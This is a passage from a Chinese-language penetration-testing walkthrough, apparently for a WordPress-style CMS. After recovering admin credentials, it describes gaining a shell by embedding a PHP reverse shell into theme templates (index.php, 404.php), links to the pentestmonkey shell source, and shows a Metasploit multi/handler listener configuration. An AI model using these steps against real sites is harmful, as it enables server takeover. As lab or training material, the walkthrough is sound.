 得到用户名密码may/123456  
得到管理员用户密码就可以使用后台getshell的常用手法 下文将演示常见方法

### 方法1、修改模板

后台 -> 外观 -> 编辑  
通过在index.php、404.php等模板中嵌入恶意代码进行正向或反连shell  
嵌入php\_reverse\_shell.php代码  
[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
[![](assets/1706513536-aab1d1c5253bef60bcc98f9fc85a4975.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928239544-9197060c-d7fb-4b21-b6de-30e21ee3b009.png#averageHue=%23e2e2e2&clientId=uc39f9627-399e-4&from=paste&height=853&id=u09e9adf9&originHeight=1706&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=488325&status=done&style=none&taskId=u435abfea-c3db-406b-859c-143b26626fd&title=&width=1547)  
使用metasploit等工具建立监听

```plain
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
